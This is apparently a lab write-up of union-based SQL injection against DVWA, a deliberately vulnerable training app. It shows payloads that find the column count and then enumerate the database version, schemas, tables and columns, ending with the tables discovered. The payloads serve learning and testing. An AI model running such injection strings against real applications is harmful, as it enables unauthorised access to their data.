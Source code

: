 As expected, we have an uneven amount of columns, so I edit my payload to this, to try 2 columns instead of 1:

```sql
bs' UNION SELECT 1, 2 -- -
```

![[Pasted image 20230424005612.png]](/img/Pasted%20image%2020230424005612.png)

Surprisingly, this actually works, so my speculation that the first query was selecting 3 columns was incorrect, it was only selecting 2 columns. So I believe that the query running in the backend with this injection looks like this:

```sql
SELECT first_name, surname FROM users WHERE user_id = 'bs' UNION SELECT 1, 2 -- -';
```

As you can see, it is most likely not selecting the id, but just the first_name and surname. Finally, I was able to match the number of columns in both SELECT statements using UNION, so now we know that they are 2 columns we are working with. 

```sql
1' UNION SELECT 1, @@version -- -
```

```sql
1' UNION SELECT 1, SCHEMA_NAME from INFORMATION_SCHEMA.SCHEMATA-- -
```

```sql
1' UNION SELECT SCHEMA_NAME, database() from INFORMATION_SCHEMA.SCHEMATA-- -
```

```sql
1' UNION SELECT TABLE_NAME, TABLE_SCHEMA from INFORMATION_SCHEMA.TABLES-- -
```

```sql
1' UNION SELECT TABLE_NAME, TABLE_SCHEMA from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA='dvwa'-- -
```

```sql
1' UNION SELECT COLUMN_NAME, 2 from INFORMATION_SCHEMA.COLUMNS  -- -
```

```sql
1' UNION SELECT COLUMN_NAME, TABLE_NAME from INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA='dvwa' -- -
```

- Schema/Database:
	- dvwa
- Table Names:
	- guestbook
	- users
